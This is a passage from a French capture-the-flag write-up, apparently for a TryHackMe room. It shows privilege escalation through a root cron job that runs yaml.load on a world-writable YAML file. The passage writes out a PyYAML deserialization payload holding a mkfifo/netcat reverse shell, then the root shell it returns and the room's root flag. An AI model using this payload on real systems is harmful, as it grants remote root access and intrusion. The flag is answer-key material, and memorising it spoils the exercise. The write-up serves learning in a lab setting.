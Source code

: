 ```bash
2021/10/05 18:54:01 CMD: UID=0    PID=22672  | /bin/sh -c cd /tmp && sudo chown root:root /tmp/file.yml 
2021/10/05 18:54:01 CMD: UID=0    PID=22671  | /usr/sbin/CRON -f 
2021/10/05 18:54:01 CMD: UID=0    PID=22670  | /usr/sbin/CRON -f 
2021/10/05 18:54:01 CMD: UID=0    PID=22676  | sudo chown root:root /tmp/file.yml 
2021/10/05 18:54:01 CMD: UID=0    PID=22677  | sudo /usr/bin/python /opt/scripts/file.py 
...
```

On pspy64 on remarque qu'il y a un fichier /opt/scripts/files.py qui est lancé toute les minutes.   

```bash
$ cat /opt/scripts/file.py
#!/usr/bin/python
import yaml


class Execute():
	def __init__(self,file_name ="/tmp/file.yml"):
		self.file_name = file_name
		self.read_file = open(file_name ,"r")

	def run(self):
		return self.read_file.read()

data  = yaml.load(Execute().run())
```

On remarque le scripte exécute des commandes dans le fichier file.yml.  

**What is the root flag?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444

-------------

$ echo "!!python/object/new:os.system [rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.228.66 4444 >/tmp/f]" > file.yml

-------------

tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.95.90.
Ncat: Connection from 10.10.95.90:38864.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
5d45f08ee939521d59247233d3f8faf
```

On écoute le port 4444 pour avoir un shell.  
On met un reverse shell dans le file.yml.   
On attend environ 1 min et on obtient un shell avec les droits root.   
Dans le fichier root.txt on obtient le dernier flag.   

La flag est : 5d45f08ee939521d59247233d3f8faf   